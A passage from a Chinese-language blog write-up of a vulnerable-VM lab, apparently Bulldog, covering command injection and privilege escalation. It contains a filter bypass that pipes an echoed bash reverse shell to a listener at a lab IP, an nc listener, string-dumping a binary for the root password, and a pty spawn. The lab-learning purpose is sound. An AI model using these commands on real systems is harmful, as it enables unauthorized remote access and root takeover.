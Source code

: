 #### 3、Web渗透–命令注入&nc反弹shell

dev/shell页面可以访问，但是只有几个命令，有过滤，下面开始想办法绕过过滤，尝试能不能反弹shell

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601012542826.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)|，&，&&，都可以绕过

这里有大佬想出用echo命令打包的方式绕过，由于我菜，就用他的方法了

**首先**：本地kali用nc监听一个端口，这里随便设置4444端口
 nc -lvp 4444
 **然后**：尝试反弹：bash -i >& /dev/tcp/192.168.245.133/4444 0>&1，报错【中间是kali的ip】
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601013359576.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 用echo打包再试：echo ‘bash -i >& /dev/tcp/192.168.245.133/4444 0>&1’|bash
 【echo命令是允许执行的，所以利用echo构建一个反弹shell的命令，然后用管道符给bash执行】

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020060101345055.jpg)此时kali监听接收到反弹过来的shell
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601013702199.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)到这里我们已经进入了系统，但是权限还不是root，离变成root的目标还有距离，下一步就开始提权操作。

#### 4、权限提升

切换成root用户是需要root用户的密码，所以我们这里主要目标是在有限的权限里面搜集到root的密码，然后完成提权。

首先查看/etc/passwd看用户，发现bulldogadmin用户，尝试cd到该目录底下找信息
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601014231292.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

进入bulldogadmin目录 ls -al 发现隐藏文件 .hiddenadmindirectory，进入并查看

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601014552748.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

进入.hiddenadmindirectory 发现 customPermissionApp和note两个文件![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601014811931.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 cat这两个文件没有发现什么有价值的信息
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601015008360.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601015008365.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)

有大佬说可以利用strings查看可执行文件中的内容，赶紧试试（strings命令用来提取和显示非文本文件中的文本字符串）【受教了受教了】

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601015248346.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)标红的地方是可以之处，
 猜测可能是密码，应为SUPER、 ulitimate、PASSWORD、youCANTget， 可以把他们连到一起正好是SUPERultimatePASSWORDyouCANTget，H是来混淆的，中间刚好有PASSWORD；

然后迫不及待的su -i 挨个试了一遍，发现没有一个对的
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601015519141.jpg)

请教大佬发现，这里有个小技巧，可以用Python调用本地的shell实现，命令如下：
 python -c ‘import pty; pty.spawn("/bin/bash")’
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/2020060101580217.jpg)然后在切换root，密码是最长的那个SUPERultimatePASSWORDyouCANTget

![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601015847682.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)成功拿到root权限
 ![在这里插入图片描述](https://img-blog.csdnimg.cn/20200601015957232.jpg?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3dlaXhpbl80Mjc0MjY1OA==,size_16,color_FFFFFF,t_70)
